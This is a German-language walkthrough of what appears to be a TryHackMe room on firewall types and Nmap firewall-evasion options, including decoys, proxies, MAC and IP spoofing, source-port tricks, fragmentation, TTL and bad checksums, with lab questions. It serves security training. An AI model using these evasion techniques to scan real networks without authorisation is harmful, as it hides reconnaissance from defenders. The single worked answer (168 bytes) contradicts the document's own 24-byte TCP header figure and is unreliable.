

# Task 1 - Einführung
Eine Firewall ist eine Software oder Hardware, die den Netzwerkverkehr überwacht und mit einer Reihe von Regeln vergleicht, bevor sie ihn weiterleitet oder blockiert. Eine einfache Analogie ist ein Wächter oder Türsteher am Eingang einer Veranstaltung. Dieser Türsteher kann die Identität von Personen anhand einer Reihe von Regeln überprüfen, bevor er ihnen den Zutritt (oder den Ausgang) erlaubt.

Bevor wir detaillierter auf Firewalls eingehen, ist es hilfreich, sich die Inhalte eines IP-Pakets und eines TCP-Segments in Erinnerung zu rufen. Die folgende Abbildung zeigt die Felder, die wir in einem IP-Header erwarten. Wenn die Abbildung kompliziert aussieht, müssen Sie sich keine Sorgen machen, da wir nur an einigen wenigen Feldern interessiert sind. Verschiedene Arten von Firewalls sind in der Lage, verschiedene Paketfelder zu überprüfen; jedoch sollte die grundlegendste Firewall zumindest die folgenden Felder überprüfen können:

- Protokoll
- Quelladresse
- Zieladresse


Je nach Protokollfeld kann die Daten im IP-Datagramm eine von vielen Optionen sein. Drei gängige Protokolle sind:

- TCP
- UDP
- ICMP

Im Falle von TCP oder UDP sollte die Firewall mindestens in der Lage sein, die TCP- und UDP-Header auf folgende Punkte zu überprüfen:

- Quellportnummer
- Zielportnummer

Der TCP-Header wird in der untenstehenden Abbildung gezeigt. Es fällt auf, dass es viele Felder gibt, die die Firewall möglicherweise analysieren kann oder nicht; jedoch sollte selbst die am wenigsten umfassende Firewall dem Firewall-Administrator die Kontrolle über erlaubte oder blockierte Quell- und Zielportnummern ermöglichen.  


### Lernziele

In diesem Raum werden folgende Themen behandelt:

- Die verschiedenen Arten von Firewalls, entsprechend unterschiedlichen Klassifikationskriterien
- Verschiedene Techniken zur Umgehung von Firewalls

Dieser Raum setzt grundlegende Kenntnisse voraus in:

- ISO/OSI-Schichten und TCP/IP-Schichten. Wir empfehlen, das Modul [Netzwerkgrundlagen](https://tryhackme.com/module/network-fundamentals) durchzugehen, wenn Sie Ihr Wissen auffrischen möchten.
- Netzwerk- und Port-Scanning. Wir empfehlen, das Nmap-Modul zu absolvieren, um mehr über dieses Thema zu erfahren.
- Reverse- und Bind-Shells. Wir empfehlen den Raum „[Was ist eine Shell?](https://tryhackme.com/room/introtoshells)“ um mehr über Shells zu lernen.

### Aufwärmfragen

Die Designlogik traditioneller Firewalls besteht darin, dass eine Portnummer den Dienst und das Protokoll identifiziert. In traditionellen Firewalls, d.h. Paketfilter-Firewalls, wird alles hauptsächlich auf Basis der folgenden Kriterien erlaubt oder blockiert:

- Protokoll, wie TCP, UDP und ICMP
- IP-Quelladresse
- IP-Zieladresse
- Quell-TCP- oder UDP-Portnummer
- Ziel-TCP- oder UDP-Portnummer

Betrachten wir dieses sehr vereinfachte Beispiel. Wenn Sie HTTP-Verkehr blockieren möchten, müssen Sie den TCP-Verkehr von der Quell-TCP-Portnummer 80 blockieren, d.h. der Standardportnummer für HTTP. Wenn Sie HTTPS-Verkehr zulassen möchten, sollten Sie den Verkehr von der Quell-TCP-Portnummer 443 zulassen, d.h. der Portnummer, die standardmäßig für HTTPS verwendet wird. Offensichtlich ist dies nicht effizient, da es andere Standardportnummern gibt, die wir einbeziehen müssen. Darüber hinaus kann der Dienst auf einer nicht-standardmäßigen Portnummer laufen. Jemand könnte einen HTTP-Server auf Port 53 oder 6667 betreiben.

Besuchen Sie das [Service Name and Transport Protocol Port Number Registry](http://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml), um mehr über die Standardportnummern zu erfahren und die folgenden Fragen zu beantworten.

## Fragen:
Wenn Sie Telnet blockieren möchten, welche TCP-Portnummer sollten Sie verweigern?
```

```

Wenn Sie HTTPS zulassen möchten, welche TCP-Portnummer müssen Sie zulassen?
```

```

Was ist eine alternative TCP-Portnummer, die für HTTP verwendet wird? Sie wird als „HTTP Alternate“ beschrieben.
```

```

Sie müssen SNMP über SSH, snmpssh, zulassen. Welchen Port sollten Sie zulassen?
```

```

# Task 2 - Types of Firewalls
Es gibt mehrere Möglichkeiten, Firewalls zu klassifizieren. Eine Möglichkeit, Firewalls zu klassifizieren, besteht darin, ob sie eigenständige Geräte sind.

- **Hardware-Firewall (Appliance-Firewall)**: Wie der Name schon sagt, handelt es sich bei einer Appliance-Firewall um ein separates Hardware-Gerät, durch das der Netzwerkverkehr fließen muss. Beispiele hierfür sind Cisco ASA (Adaptive Security Appliance), WatchGuard Firebox und Netgate pfSense Plus Appliance.
- **Software-Firewall**: Dies ist ein Softwareprogramm, das mit dem Betriebssystem gebündelt ist oder das Sie als zusätzlichen Dienst installieren können. MS Windows verfügt über eine integrierte Firewall, die Windows Defender Firewall, die zusammen mit den anderen Betriebssystemdiensten und Benutzeranwendungen läuft. Ein weiteres Beispiel sind Linux iptables und firewalld.

Wir können Firewalls auch wie folgt klassifizieren:

- **Persönliche Firewall**: Eine persönliche Firewall ist dazu gedacht, ein einzelnes System oder ein kleines Netzwerk zu schützen, beispielsweise eine kleine Anzahl von Geräten und Systemen in einem Heimnetzwerk. Höchstwahrscheinlich verwenden Sie zu Hause eine persönliche Firewall, ohne ihr viel Beachtung zu schenken. Viele drahtlose Zugangspunkte, die für den Heimgebrauch konzipiert sind, haben beispielsweise eine integrierte Firewall. Ein Beispiel dafür ist Bitdefender BOX. Ein weiteres Beispiel ist die Firewall, die Teil vieler drahtloser Zugangspunkte und Heimrouter von Linksys und Dlink ist.
- **Kommerzielle Firewall**: Eine kommerzielle Firewall schützt mittelgroße bis große Netzwerke. Daher würden Sie höhere Zuverlässigkeit und Verarbeitungsgeschwindigkeit erwarten, zusätzlich zur Unterstützung einer höheren Netzwerkbandbreite. Höchstwahrscheinlich durchlaufen Sie eine solche Firewall, wenn Sie von Ihrer Universität oder Ihrem Unternehmen aus auf das Internet zugreifen.

Aus der Perspektive des Red Teams ist die wichtigste Klassifizierung die nach den Fähigkeiten der Firewall-Inspektion. Es ist sinnvoll, über die Fähigkeiten der Firewall in Bezug auf die ISO/OSI-Schichten nachzudenken, die in der folgenden Abbildung dargestellt sind. Bevor wir Firewalls basierend auf ihren Fähigkeiten klassifizieren, ist es wichtig zu wissen, dass Firewalls sich auf die Schichten 3 und 4 konzentrieren und in geringerem Maße auf Schicht 2. Next-Generation-Firewalls sind auch darauf ausgelegt, die Schichten 5, 6 und 7 abzudecken. Je mehr Schichten eine Firewall inspizieren kann, desto ausgefeilter wird sie und desto mehr Rechenleistung benötigt sie.  


Basierend auf den Fähigkeiten der Firewall können wir die folgenden Firewall-Typen auflisten:

- **Packet-Filtering Firewall**: Packet-Filtering ist die grundlegendste Art von Firewall. Diese Art von Firewall inspiziert das Protokoll, die Quell- und Ziel-IP-Adressen sowie die Quell- und Zielports im Fall von TCP- und UDP-Datagrammen. Es handelt sich um eine stateless Inspection Firewall.
- **Circuit-Level Gateway**: Zusätzlich zu den von Packet-Filtering-Firewalls angebotenen Funktionen können Circuit-Level Gateways zusätzliche Fähigkeiten bieten, wie z.B. die Überprüfung des TCP-Drei-Wege-Handshake gegen die Firewall-Regeln.
- **Stateful Inspection Firewall**: Im Vergleich zu den vorherigen Typen bietet diese Art von Firewall eine zusätzliche Schutzebene, da sie die etablierten TCP-Sitzungen verfolgt. Dadurch kann sie alle TCP-Pakete außerhalb einer etablierten TCP-Sitzung erkennen und blockieren.
- **Proxy Firewall**: Eine Proxy-Firewall wird auch als Application Firewall (AF) und Web Application Firewall (WAF) bezeichnet. Sie ist so konzipiert, dass sie sich als der ursprüngliche Client tarnt und Anfragen in dessen Namen stellt. Dieser Prozess ermöglicht es der Proxy-Firewall, den Inhalt der Pakete anstelle der Paket-Header zu inspizieren. Allgemein gesprochen wird dies für Webanwendungen verwendet und funktioniert nicht für alle Protokolle.
- **Next-Generation Firewall (NGFW)**: NGFW bietet den höchsten Firewall-Schutz. Sie kann praktisch alle Netzwerkschichten überwachen, von OSI-Schicht 2 bis OSI-Schicht 7. Sie hat Anwendungsbewusstsein und -kontrolle. Beispiele sind die Juniper SRX-Serie und Cisco Firepower.
- **Cloud Firewall oder Firewall as a Service (FWaaS)**: FWaaS ersetzt eine Hardware-Firewall in einer Cloud-Umgebung. Ihre Funktionen können je nach Dienstanbieter mit denen einer NGFW vergleichbar sein; sie profitiert jedoch von der Skalierbarkeit der Cloud-Architektur. Ein Beispiel ist Cloudflare Magic Firewall, eine netzwerkbasierte Firewall. Ein weiteres Beispiel ist Juniper vSRX; es hat die gleichen Funktionen wie eine NGFW, wird jedoch in der Cloud bereitgestellt. Ebenfalls erwähnenswert sind AWS WAF für den Schutz von Webanwendungen und AWS Shield für den DDoS-Schutz.

## Fragen:
Was ist die grundlegendste Art von Firewall?
```

```

Was ist die fortschrittlichste Art von Firewall, die man in Unternehmensräumen haben kann?
```

```

# Task 3 - Evasion via Controlling the Source MAC/IP/Port
Wenn man einen Host hinter einer Firewall scannt, erkennt und blockiert die Firewall normalerweise Port-Scans. In einer solchen Situation muss man seinen Netzwerk- und Port-Scan anpassen, um die Firewall zu umgehen. Ein Netzwerk-Scanner wie Nmap bietet einige Funktionen, die dabei helfen können. In diesem Raum gruppieren wir Nmap-Techniken in drei Gruppen:

1. Umgehung durch Kontrolle der Quell-MAC/IP/Port
2. Umgehung durch Fragmentierung, MTU und Datenlänge
3. Umgehung durch Modifizieren der Header-Felder

Nmap ermöglicht es, die Quelle zu verbergen oder zu fälschen, indem man Folgendes verwendet:

1. Decoys
2. Proxy
3. Gefälschte MAC-Adresse
4. Gefälschte Quell-IP-Adresse
5. Feste Quellport-Nummer

Bevor wir auf jede Methode eingehen, wollen wir zeigen, wie ein Nmap-Stealth-Scan (SYN-Scan) aussieht. Wir scannen ein MS-Windows-Ziel (mit standardmäßig eingebauter Firewall), daher haben wir `-Pn` hinzugefügt, um den Scan auch dann fortzusetzen, wenn keine Ping-Antwort empfangen wird. `-Pn` wird verwendet, um die Host-Erkennung zu überspringen und zu testen, ob der Host aktiv ist. Außerdem haben wir zur Beschleunigung des Scans die 100 häufigsten Ports mit der Option `-F` begrenzt. Der Scan wurde mit folgendem Befehl durchgeführt: `nmap -sS -Pn -F MACHINE_IP`.

Der folgende Screenshot zeigt die von Wireshark erfassten Nmap-Probe-Pakete. Wireshark lief auf demselben System, auf dem Nmap ausgeführt wurde.  


Wir können alle Details, die in jedem Paket eingebettet sind, untersuchen; für diese Übung möchten wir jedoch Folgendes festhalten:

- Unsere IP-Adresse 10.14.17.226 hat etwa 200 Pakete erzeugt und gesendet. Die -F-Option begrenzt den Scan auf die 100 häufigsten Ports; außerdem wird jedem Port ein zweites SYN-Paket gesendet, wenn es nicht auf das erste antwortet.
- Die Quellportnummer wird zufällig gewählt. Im Screenshot sieht man, dass sie 37710 ist.
- Die Gesamtlänge des IP-Pakets beträgt 44 Byte. Es gibt 20 Byte für den IP-Header, was 24 Byte für den TCP-Header übrig lässt. Es werden keine Daten über TCP gesendet.
- Die Lebensdauer (TTL) beträgt 42.
- Es werden keine Fehler in der Prüfsumme eingeführt.

In den folgenden Abschnitten und Aufgaben werden wir sehen, wie Nmap verschiedene Optionen bietet, um die Firewall und andere Netzwerksicherheitslösungen zu umgehen.

## Fragen:
Wie groß ist das IP-Paket bei einem standardmäßigen Nmap-Stealth-Scan (SYN-Scan)?
```

```

Wie viele Bytes enthält das TCP-Segment in seinem Datenfeld bei einem standardmäßigen Nmap-Stealth-Scan (SYN-Scan)?
```

```

Ungefähr wie viele Pakete erwarten Sie, dass Nmap sendet, wenn der Befehl `nmap -sS -F MACHINE_IP` ausgeführt wird? Runden Sie auf die nächste 100 auf, wie z.B. 100, 200, 300 usw.
```

```

### Decoy(s)

Verstecken Sie Ihren Scan mit Decoys. Durch die Verwendung von Decoys mischt sich Ihre IP-Adresse mit anderen „Decoy“-IP-Adressen. Folglich wird es für die Firewall und das Zielsystem schwierig, herauszufinden, woher der Port-Scan kommt. Darüber hinaus kann dies das Blue-Team erschöpfen, da es jede Quell-IP-Adresse untersuchen muss.

Mit der Option `-D` können Sie Decoy-Quell-IP-Adressen hinzufügen, um das Ziel zu verwirren. Betrachten Sie den folgenden Befehl: `nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F MACHINE_IP`. Die Wireshark-Erfassung ist in der folgenden Abbildung dargestellt.  


Das Ziel `MACHINE_IP` wird auch Scans von `10.10.10.1` und `10.10.10.2` sehen, obwohl nur eine Quell-IP-Adresse, `ME`, den Scan durchführt. Beachten Sie, dass Nmap Ihre tatsächliche IP-Adresse (`ME`) an einer zufälligen Position einfügt, wenn Sie den ME-Eintrag im Scanbefehl weglassen.

Sie können Nmap auch so einstellen, dass es zufällige Quell-IP-Adressen verwendet, anstatt sie explizit anzugeben. Durch das Ausführen von `nmap -sS -Pn -D RND,RND,ME -F MACHINE_IP` wählt Nmap zwei zufällige Quell-IP-Adressen als Decoys aus. Jedes Mal, wenn Sie diesen Befehl ausführen, verwendet Nmap neue zufällige IP-Adressen. Im folgenden Screenshot sehen wir, wie Nmap zwei zufällige IP-Adressen zusätzlich zu unserer eigenen (`10.14.17.226`) ausgewählt hat.  


Ungefähr wie viele Pakete erwarten Sie, dass Nmap sendet, wenn der Befehl `nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F MACHINE_IP` ausgeführt wird? Ungefähr auf das nächste Hundert gerundet, wie 100, 200, 300 usw.
```

```

### Proxy

Verwenden Sie einen HTTP/SOCKS4-Proxy. Die Weiterleitung des Portscans über einen Proxy hilft dabei, Ihre IP-Adresse vor dem Zielhost zu verbergen. Diese Technik ermöglicht es Ihnen, Ihre IP-Adresse verborgen zu halten, während das Ziel die IP-Adresse des Proxy-Servers protokolliert. Sie können diesen Weg mit der Nmap-Option `--proxies PROXY_URL` gehen. Zum Beispiel sendet `nmap -sS -Pn --proxies PROXY_URL -F MACHINE_IP` alle seine Pakete über den von Ihnen angegebenen Proxy-Server. Beachten Sie, dass Sie Proxys mit einer durch Kommas getrennten Liste verketten können.

Was erwarten Sie, dass das Ziel als Quelle des Scans sieht, wenn Sie den Befehl `nmap -sS -Pn --proxies 10.10.13.37 MACHINE_IP` ausführen?
```

```

### Gefälschte MAC-Adresse

Fälschen Sie die Quell-MAC-Adresse. Nmap ermöglicht es Ihnen, Ihre MAC-Adresse mit der Option --spoof-mac MAC_ADDRESS zu fälschen. Diese Technik ist knifflig; das Fälschen der MAC-Adresse funktioniert nur, wenn Ihr System im selben Netzwerksegment wie der Zielhost ist. Das Zielsystem wird auf eine gefälschte MAC-Adresse antworten. Wenn Sie sich nicht im selben Netzwerksegment befinden und das gleiche Ethernet teilen, können Sie die Antworten nicht erfassen und lesen. Es ermöglicht Ihnen, Vertrauensbeziehungen basierend auf MAC-Adressen auszunutzen. Darüber hinaus können Sie diese Technik verwenden, um Ihre Scanaktivitäten im Netzwerk zu verbergen. Zum Beispiel können Sie Ihre Scans so erscheinen lassen, als kämen sie von einem Netzwerkdrucker.

Welche Firma hat den folgenden Organizationally Unique Identifier (OUI), d.h. die ersten 24 Bits einer MAC-Adresse, 00:02:DC, registriert?
```

```

### Gefälschte IP-Adresse

Fälschen Sie die Quell-IP-Adresse. Nmap ermöglicht es Ihnen, Ihre IP-Adresse mit `-S IP_ADDRESS` zu fälschen. Das Fälschen der IP-Adresse ist nützlich, wenn Ihr System im selben Subnetz wie der Zielhost ist; andernfalls können Sie die zurückgesendeten Antworten nicht lesen. Der Grund ist, dass der Zielhost auf die gefälschte IP-Adresse antwortet, und wenn Sie die Antworten nicht erfassen können, profitieren Sie nicht von dieser Technik. Eine weitere Verwendung für das Fälschen Ihrer IP-Adresse besteht darin, wenn Sie das System kontrollieren, das diese bestimmte IP-Adresse hat. Folglich, wenn Sie feststellen, dass das Ziel die gefälschte IP-Adresse zu blockieren beginnt, können Sie zu einer anderen gefälschten IP-Adresse wechseln, die zu einem von Ihnen kontrollierten System gehört. Diese Scan-Technik kann Ihnen helfen, eine verdeckte Existenz aufrechtzuerhalten; darüber hinaus können Sie diese Technik nutzen, um Vertrauensbeziehungen im Netzwerk basierend auf IP-Adressen auszunutzen.

Um den Gegner in die Irre zu führen, haben Sie beschlossen, Ihre Portscans so erscheinen zu lassen, als kämen sie von einem lokalen Zugangspunkt, der die IP-Adresse `10.10.0.254` hat. Welche Option muss Ihrem Nmap-Befehl hinzugefügt werden, um Ihre Adresse entsprechend zu fälschen?
```

```

### Fester Quellportnummer

Verwenden Sie eine spezifische Quellportnummer. Das Scannen von einer bestimmten Quellportnummer kann hilfreich sein, wenn Sie feststellen, dass Firewalls eingehende Pakete von bestimmten Quellportnummern wie Port 53 oder 80 zulassen. Ohne den Paketinhalt zu inspizieren, sehen Pakete von Quell-TCP-Port 80 oder 443 wie Pakete von einem Webserver aus, während Pakete von UDP-Port 53 wie Antworten auf DNS-Abfragen aussehen. Sie können Ihre Portnummer mit den Optionen `-g` oder `--source-port` festlegen.

Der folgende Wireshark-Screenshot zeigt einen Nmap-Scan mit der festen Quell-TCP-Portnummer 8080. Wir haben den folgenden Nmap-Befehl verwendet: `nmap -sS -Pn -g 8080 -F MACHINE_IP`. Sie können im Screenshot sehen, dass alle TCP-Verbindungen von derselben TCP-Portnummer gesendet werden.  


Du entscheidest dich, Nmap zu verwenden, um nach offenen UDP-Ports zu scannen. Du bemerkst, dass die Verwendung von `nmap -sU -F MACHINE_IP`, um die offenen häufigen UDP-Ports zu entdecken, keine bedeutungsvollen Ergebnisse liefert. Was musst du zu deinem Nmap-Befehl hinzufügen, um die Quellportnummer auf 53 zu setzen?
```

```

Dies ist eine kurze Zusammenfassung der in dieser Aufgabe besprochenen Nmap-Optionen:

Evasion Approach  |  Nmap Argument  
--- | ---  
Verstecke einen Scan mit Täuschungs-IP-Adressen  |  `-D DECOY1_IP1,DECOY_IP2,ME`  
Verstecke einen Scan mit zufälligen Täuschungs-IP-Adressen  |  `-D RND,RND,ME`  
Verwende einen HTTP/SOCKS4-Proxy zum Weiterleiten von Verbindungen  |  `--proxies PROXY_URL`  
Spoofing der Quell-MAC-Adresse  |  `--spoof-mac MAC_ADDRESS`  
Spoofing der Quell-IP-Adresse  |  `-S IP_ADDRESS`  
Verwende eine spezifische Quellportnummer  |  `-g PORT_NUM` oder `--source-port PORT_NUM`  

---

```
Keine Antwort nötig
```

# Task 4 - Evasion via Forcing Fragmentation, MTU, and Data Length
Du kannst die Paketgröße steuern, was dir ermöglicht:

- Pakete zu fragmentieren, optional mit einer bestimmten MTU. Wenn die Firewall oder das IDS/IPS die Pakete nicht wieder zusammensetzt, werden sie höchstwahrscheinlich passieren. Folglich wird das Zielsystem sie wieder zusammensetzen und verarbeiten.
- Pakete mit bestimmten Datenlängen zu senden.

Beantworte die folgenden Fragen
Fragmentiere deine Pakete mit 8 Bytes Daten

Eine einfache Möglichkeit, deine Pakete zu fragmentieren, besteht darin, die Option `-f` zu verwenden. Diese Option fragmentiert das IP-Paket so, dass es nur 8 Bytes Daten trägt. Wie bereits erwähnt, bedeutet das Ausführen eines Nmap-TCP-Port-Scans, dass das IP-Paket 24 Bytes enthält, den TCP-Header. Wenn du die IP-Daten auf 8 Bytes begrenzen möchtest, werden die 24 Bytes des TCP-Headers auf 3 IP-Pakete verteilt. Und genau das haben wir erhalten, als wir diesen Nmap-Scan ausgeführt haben: `nmap -sS -Pn -f -F MACHINE_IP`. Wie wir in der Wireshark-Aufzeichnung in der Abbildung unten sehen können, wird jedes IP-Paket in drei Pakete fragmentiert, jedes mit 8 Bytes Daten.  


Was ist die Größe des IP-Pakets beim Ausführen von Nmap mit der Option -f?
```

```

### Fragmentieren Sie Ihre Pakete mit 16 Bytes Daten

Eine weitere nützliche Option ist `-ff`, die die IP-Daten auf 16 Bytes begrenzt. (Eine einfache Möglichkeit, sich das zu merken, ist, dass ein `f` 8 Bytes sind, aber zwei `f`s 16 Bytes.) Durch das Ausführen von `nmap -sS -Pn -ff -F MACHINE_IP` erwarten wir, dass die 24 Bytes des TCP-Headers auf zwei IP-Pakete aufgeteilt werden, 16 + 8 Bytes, da `-ff` eine Obergrenze von 16 Bytes gesetzt hat. Die ersten paar Pakete sind im Wireshark-Capture unten gezeigt.  


Wie groß ist das maximale IP-Paket beim Ausführen von Nmap mit der Option -ff?
```

```

### Fragmentieren Sie Ihre Pakete nach einem festgelegten MTU

Eine weitere praktische Methode zur Fragmentierung Ihrer Pakete besteht darin, das MTU (Maximum Transmission Unit) festzulegen. In Nmap gibt `--mtu VALUE` die Anzahl der Bytes pro IP-Paket an, wobei die Größe des IP-Headers nicht berücksichtigt wird. Der Wert für das MTU muss immer ein Vielfaches von 8 sein.

Beachten Sie, dass die Maximum Transmission Unit (MTU) die maximale Paketgröße angibt, die über eine bestimmte Verbindungsebene übertragen werden kann. Zum Beispiel hat Ethernet eine MTU von 1500, was bedeutet, dass das größte IP-Paket, das über eine Ethernet-Verbindung (Verbindungsebene) gesendet werden kann, 1500 Bytes beträgt. Verwechseln Sie dieses MTU nicht mit der `--mtu`-Option in Nmap.

Wenn Sie Nmap mit `--mtu 8` ausführen, ist dies identisch mit `-f`, da die IP-Daten auf 8 Bytes begrenzt werden. Die ersten paar Pakete, die von diesem Nmap-Scan `nmap -sS -Pn --mtu 8 -F MACHINE_IP` erzeugt werden, sind im folgenden Wireshark-Capture zu sehen.  


Wie groß ist das maximale IP-Paket beim Ausführen von Nmap mit der Option --mtu 36?
```

```

### Pakete mit spezifischer Länge erzeugen

In einigen Fällen könnte die Größe der Pakete dazu führen, dass die Firewall oder das IDS/IPS Sie erkennt und blockiert. Wenn Sie in einer solchen Situation sind, können Sie Ihre Port-Scans durch das Festlegen einer spezifischen Länge weniger auffällig machen. Sie können die Länge der Daten, die innerhalb des IP-Pakets übertragen werden, mit `--data-length VALUE` festlegen. Denken Sie daran, dass die Länge ein Vielfaches von 8 sein sollte.

Wenn Sie den folgenden Nmap-Scan ausführen: `nmap -sS -Pn --data-length 64 -F MACHINE_IP`, wird jedes TCP-Segment mit zufälligen Daten aufgefüllt, bis seine Länge 64 Bytes beträgt. Im Screenshot unten sehen Sie, dass jedes TCP-Segment eine Länge von 64 Bytes hat.  


Wie groß ist das maximale IP-Paket beim Ausführen von Nmap mit der Option `--data-length 128`?
```

```

Wenn Sie den Nmap-Scan mit der Option `--data-length 128` ausführen, wird die Länge der TCP-Daten auf 128 Bytes festgelegt. Daher ist die maximale Größe des IP-Pakets die Größe der TCP-Daten plus die Header-Größen von IP und TCP. Standardmäßig ist der IP-Header 20 Bytes und der TCP-Header ebenfalls 20 Bytes groß. 

Das bedeutet, dass die maximale Größe des IP-Pakets bei Verwendung von `--data-length 128` folgendermaßen berechnet wird:

- IP-Header: 20 Bytes
- TCP-Header: 20 Bytes
- TCP-Daten: 128 Bytes

**Maximale Größe des IP-Pakets = 20 Bytes (IP-Header) + 20 Bytes (TCP-Header) + 128 Bytes (TCP-Daten) = 168 Bytes**

Zusammenfassung der Nmap-Optionen:

| Evasion Approach                | Nmap Argument        |
|---------------------------------|----------------------|
| Fragmentiere IP-Daten in 8 Bytes   | `-f`                   |
| Fragmentiere IP-Daten in 16 Bytes  | `-ff`                  |
| Fragmentiere Pakete mit gegebenem MTU | `--mtu VALUE`         |
| Spezifiziere Paketlänge            | `--data-length NUM`    |

# Task 5 - Evasion via Modifying Header Fields
Nmap ermöglicht es Ihnen, verschiedene Header-Felder zu steuern, die dabei helfen können, die Firewall zu umgehen. Sie können:

- Die IP-Zeitüberschreitung (TTL) festlegen
- Pakete mit angegebenen IP-Optionen senden
- Pakete mit falschem TCP/UDP-Checksumme senden

### TTL Festlegen

Nmap gibt Ihnen zusätzliche Kontrolle über verschiedene Felder im IP-Header. Eines der Felder, die Sie steuern können, ist die Time-to-Live (TTL). Die Nmap-Option `--ttl VALUE` ermöglicht es Ihnen, die TTL auf einen benutzerdefinierten Wert zu setzen. Diese Option kann nützlich sein, wenn Sie denken, dass der Standard-TTL Ihre Port-Scan-Aktivitäten offenlegen könnte.

Im folgenden Screenshot sehen Sie die von Wireshark erfassten Pakete nach der Verwendung einer benutzerdefinierten TTL, als wir den Scan mit dem Befehl `nmap -sS -Pn --ttl 81 -F MACHINE_IP` ausgeführt haben. Wie bei den vorherigen Beispielen wurden die Pakete auf demselben System erfasst, das auch Nmap ausführt. 


## Fragen
Starte die AttackBox und die mit dieser Aufgabe verbundene Maschine. Nachdem du ihnen Zeit gegeben hast, vollständig hochzufahren, scanne die angehängte MS Windows-Maschine mit der Option `--ttl 1`. Überprüfe die Anzahl der Ports, die als geöffnet angezeigt werden. Die Antwort kann je nach Verwendung der AttackBox oder der VPN-Verbindung variieren. Es wird empfohlen, beide Methoden auszuprobieren.
```
Keine Antwort nötig
```

Scanne die angehängte MS Windows-Maschine mit der Option `--ttl 2`. Wie viele Ports erscheinen als geöffnet?
```

```

### IP-Optionen Festlegen

Ein Feld im IP-Header ist das IP-Optionsfeld. Mit Nmap kannst du den Wert im IP-Optionsfeld mit der Option `--ip-options HEX_STRING` steuern, wobei der Hex-String die Bytes spezifizieren kann, die du für das IP-Optionsfeld verwenden möchtest. Jedes Byte wird als `\xHH` geschrieben, wobei HH zwei hexadezimale Ziffern repräsentiert, d. h. ein Byte.

Eine Abkürzung, die Nmap bereitstellt, ist die Verwendung von Buchstaben für deine Anfragen:

- **R** für Record-Route.
- **T** für Record-Timestamp.
- **U** für Record-Route und Record-Timestamp.
- **L** für Loose Source Routing und muss von einer Liste von IP-Adressen gefolgt werden, die durch Leerzeichen getrennt sind.
- **S** für Strict Source Routing und muss von einer Liste von IP-Adressen gefolgt werden, die durch Leerzeichen getrennt sind.

Loose und Strict Source Routing können nützlich sein, wenn du versuchst, deine Pakete auf einem bestimmten Weg zu leiten, um ein bestimmtes Sicherheitssystem zu umgehen.

### Falsche Prüfziffer Verwenden

Ein weiterer Trick, den du anwenden kannst, ist das Senden von Paketen mit einer absichtlich falschen Prüfziffer. Einige Systeme verwerfen Pakete mit fehlerhaften Prüfziffern, während andere dies nicht tun. Du kannst dies zu deinem Vorteil nutzen, um mehr über die Systeme in deinem Netzwerk herauszufinden. Alles, was du tun musst, ist, die Option `--badsum` zu deinem Nmap-Befehl hinzuzufügen.

Beim Scannen unseres Ziels mit `nmap -sS -Pn --badsum -F MACHINE_IP` haben wir absichtlich falsche TCP-Prüfziffern verwendet. Das Ziel hat alle unsere Pakete verworfen und auf keines von ihnen reagiert.
```shell    
pentester@TryHackMe# nmap -sS -Pn --badsum -F MACHINE_IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-28 16:07 EET
Nmap scan report for MACHINE_IP
Host is up.
All 100 scanned ports on MACHINE_IP are filtered

Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```

Der Screenshot unten zeigt die von Wireshark auf dem System, das Nmap ausführt, erfassten Pakete. Wireshark kann optional so eingestellt werden, dass es die Prüfziffern überprüft, und wir können sehen, wie es die Fehler hervorhebt.  


Scanne die angehängte MS Windows-Maschine mit der --badsum-Option. Wie viele Ports scheinen offen zu sein?
```

```

Hier ist eine kurze Zusammenfassung der in dieser Aufgabe besprochenen Nmap-Optionen:
Evasionsansatz  |  Nmap-Argument
---  |  ---
IP Time-to-Live-Feld setzen  |  --ttl WERT
Pakete mit angegebenen IP-Optionen senden  |  --ip-options OPTIONEN
Pakete mit falscher TCP/UDP-Prüfziffer senden  |  --badsum

```
Keine Antwort nötig
```

# Task 6 - Evasion Using Port Hopping
Drei gängige Techniken zur Umgehung von Firewalls sind:

- Port-Hopping
- Port-Tunneling
- Verwendung nicht standardmäßiger Ports

